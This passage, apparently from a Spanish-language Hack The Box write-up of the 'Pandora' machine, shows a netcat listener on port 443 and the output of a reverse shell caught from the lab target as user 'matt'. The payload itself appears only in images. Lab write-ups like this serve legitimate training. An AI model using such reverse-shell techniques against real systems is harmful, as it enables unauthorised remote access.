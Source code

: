 <img src="/assets/hackthebox/img/machines/easy/pandora/14.png">
</p>

- Podemos ejecutar comandos.

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/pandora/15.png">
</p>

- Vamos a ponernos en escucha.

```bash
➜  content nc -nlvp 443
listening on [any] 443 ...
```

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/pandora/16.png">
</p>

```bash
➜  content nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.62] from (UNKNOWN) [10.10.11.136] 39764
bash: cannot set terminal process group (928): Inappropriate ioctl for device
bash: no job control in this shell
matt@pandora:/var/www/pandora/pandora_console/images/xd$ whoami
whoami
matt
matt@pandora:/var/www/pandora/pandora_console/images/xd$
```
